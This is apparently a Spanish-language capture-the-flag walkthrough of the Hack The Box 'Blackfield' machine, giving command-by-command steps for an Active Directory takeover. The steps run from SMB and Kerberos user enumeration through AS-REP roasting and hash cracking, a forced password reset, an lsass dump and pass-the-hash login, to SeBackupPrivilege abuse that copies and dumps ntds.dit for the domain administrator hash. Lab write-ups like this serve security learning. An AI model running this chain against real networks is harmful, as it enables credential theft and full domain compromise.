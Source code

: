 puerto 88 kerberos, 389 ldap, 445 smb, 5985 administracion remota de windows

Como el puerto 445 esta abierto, usar crackmapexec para encontrar mas informacion sobre la maquina victima
```
crackmapexec smb 10.10.10.192
```

Como el smb esta abierto, usar smbmap para buscar recursos compartidos a nivel de red del lado de la victima

```
smbmap -H 10.10.10.192 -u 'null'
```

Encontre un recurso compartido con permisos de lectura
```
smbmap  -H 10.10.10.192 -u 'null' -r 'profiles$'
```

Reporta una lista de nombres de usuarios
```
smbmap -H 10.10.10.192 -u 'null' -r 'profiles$' | awk 'NF{print $NF}' > users
```

Ahora con kerbrute validar que usuarios son validos

```
kerbrute userenum --dc 10.10.10.192 -d blackfield.local users
```

De eta forma valide algunos usuarios , ahora podemos efectuar el ataque ASREPRoast usando GetNPUusers

```
GetNPUusers blackfield.local/ -no-pass -usersfile valid_users
```

Ahora tenemos un usuario valido y su hash, con john puedo crackear ese hash

```
john --wordlist=rockyou hash
$krb5asrep$23$support@BLACKFIELD.LOCAL:#00^BlackKnight
```

Ahora teniendo ceredenciales validas hacer un kerberoastingattack

```
GetUserSPNs 'blackfield.local/support:password'
```

este usuario no es kerberoastiable

Comprobar con crackmapexec que las credenciales son validas

```
crackmapexec smb 10.10.10.192 -u 'user' -p 'pass'
```

Ahora que eta comprobado que estas credenciales son validas, usar smbmap para listar los recursos compartidos de este usuario

```
smbmap -H 10.10.10.192 -u 'support' -p 'passwd'
```

No hay nada nuevo con este usuario, asi que hay que probar otra cosa.
podemos usar ldapdomaindump  para enumerar informacion de llos usuarios activos, y extraer informacion, tambien probar con rpcclient y su funcion enumdomusers

```
ldapdomaindump -u 'blackfield.local\support' -p 'passwd' 10.10.10.192
rpcclient -U "support%passwd" 10.10.10.192
rpcclient enumdomusers
```

Ahora tenemos informacion de grupos y usuarios del dominio, puedo tratar de cambiar alguna contraseña de los usuarios encontrados

```
net rpc password audit2020 -U 'support' -S 10.10.10.192
```

comprobar con crackmapexec que se cambio correctamente la contraseña

```
crackmapexec smb 10.10.10.192 -u 'audit2020' -p 'pass123@'
```

ahroa que tenemos una nueva credencial podermos ver que recursos compartidos tiene este nuevo usuario usando smbmap

```
smbmap -H 10.10.10.192 -u 'audit2020' -p 'pass123@'
```

Con este usuario tenemos acceso a un nuevo recuros (forensic)

```
smbmap -H 10.10.10.192 -u 'audit2020' -p 'pass123@' -r forensic
```

Encuentro reucrsos interesantes y los enumero

```
smbmap -H 10.10.10.192 -u 'audit2020' -p 'pass123@' -r forensic/memory_analysis
```

Hay uno que llama la atencion por su nombre "lsass" 
puedo usar la herramienta pypykatz para dumpiar lsass
primero descargo ese archivo a mi equipo

```
smbmap -H 10.10.10.192 -u 'audit2020' -p 'pass123@' --download forensic/memory_analysis/lsass.zip
7z x lsass.zup
```

Ahora con la herramienta pypykatz obtener informacion privilegiado aprovechanonos de ese dump lsass:
```
pypykatz lsa minidump lsass.DMP
```

Asi obenetemos el hash del usuario svc_backup el cual esta en el grupo remote management users, este usuario se puede autenticar al winrm
podemos validar con crackmapexec ese hash

```
crackmapexec smb 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'
```

Ahora validar se se puede conectar por winrm

```
crackmapexec winrm 10.10.10.192 -u 'svc_backup' -H 'NThash'
```

comoo pone Pwn3d! asi validamos que podemos ganar acceso a la maquina, ahora con evil-winrm ganamos acceso a la maquina victima
```
evil-winrm -i 10.10.10.192 -u 'svc_backup' -H 'hash'
```

Ahora hay que escalar privilegios:
Enumerar el usuario
```
whoami /priv
# SeBackupPrivilege

```

Con ese privilegio puedo hacer un backup de lo que quiera en el sistema
Creamos una copia del system

```
reg save HKLM\system system
download C:\Temp\system
```

Crear uina copia del ntds.dit

Crear una unidad logica con diskshadow https://pentestlab.blog/tag/diskshadow/:
``` 
# crear un archivo de texto con esto:  
set context persistent nowriters  
add volume c: alias someAlias  
create  
expose %someAlias% z:  
# subirlo a la maquina victima upload test.txt  #en la maquina victima diskshadow.exe /s c:\Temp\test.txt 
```  

Ahora podemos crear la copia del ntds.dit 
``` 
robocopy /b z:\Windows\NTDS\ . ntds.dit ahora descargamos el ntds.dit 
```  

Y ahora con el secretsdump :
```  
secretsdump -system system -ntds ntds.dit LOCAL
```  

ASi obtenemos el hash de administrador del DC

ahora con crackmapexec comprovamos estas credenciales

```
crackmapexec smb 10.10.10.192 -u 'Administrator' -H 'NTdshash'
```

Ahora con evil-winrm puedo ganar acceso a la maquina como Administrador

```
evil-winrm -i 10.10.10.192 -u 'Administrator' -H 'hash'
```

user hash > 3920bb317a0bef51027e2852be64b543
root hash > 4375a629c7c67c8e29db269060c955cb